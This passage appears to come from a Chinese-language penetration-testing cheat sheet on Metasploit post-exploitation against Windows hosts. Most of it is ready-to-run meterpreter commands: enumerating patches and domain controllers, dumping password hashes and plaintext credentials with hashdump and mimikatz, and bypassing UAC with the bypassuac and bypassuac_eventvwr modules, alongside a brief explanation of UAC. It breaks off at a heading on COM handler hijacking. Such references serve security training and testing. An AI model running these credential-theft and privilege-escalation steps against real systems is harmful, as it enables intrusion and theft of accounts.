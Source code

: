 ```bash
run post/windows/gather/enum_patches    # 补丁信息
run post/windows/gather/enum_domain # 查找域控
```

**抓取密码**
```bash
run hashdump    # 获取用户密码 hash 值
load mimikatz   # 加载 mimikatz，用于抓取密码，不限于明文密码和 hash 值；
msv # 获取的是 hash 值
ssp # 获取的是明文信息
wdigest # 读取内存中存放的账号密码明文信息
mimikatz_command -f samdump::hashes # 获取用户 hash
mimikatz_command -f handle::list    # 列出应用进程
mimikatz_command -f service::list   # 列出服务
```

### 权限提升

**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

1. 什么是 UAC？

    Microsoft 的 Windows Vista 和 Windows Server 2008 操作系统引入了一种良好的用户帐户控制架构，以防止系统范围内的意外更改，这种更改是可以预见的，并且只需要很少的操作量。它是 Windows 的一个安全功能，它支持防止对操作系统进行未经授权的修改，UAC 确保仅在管理员授权的情况下进行某些更改。如果管理员不允许更改，则不会执行这些更改，并且 Windows 系统保持不变。

2. UAC 如何运行？

    UAC 通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行。除非尝试执行这些操作的进程以管理员权限运行，否则这些操作将无法运行。如果您以管理员身份运行程序，则它将具有更多权限，因为它将被“提升权限”，而不是以管理员身份运行的程序。

    因为有的用户是没有管理员权限，没有管理员权限是运行不了那些只能通过管理员权限才能操作的命令。比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作。

    最直接的提权命令：getsystem

    绕过 UAC 防护机制的前提是我们首先通过 explloit 获得目标主机的 meterprter。获得 meterpreter 会话 1 后，输入以下命令以检查是否是 system 权限。在这里我就不直接演示了，直接上命令，自己多练习练习即可，所话说熟能生巧。我们需要把获取到的 session 保存到后台，执行 background

```bash
use exploit/windows/local/bypassuac
# 将通过进程注入使用可信任发布者证书绕过 Windows UAC。它将生成关闭 UAC 标志的第二个 shell。
sessions    # 查看目前的 session
sessions -k # 杀死所有 session
set session # 设为你需要 exploit 的 session
```

- **Windows权限提升绕过UAC保护（内存注入）**
    ```
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

- **通过 COM 处理程序劫持**
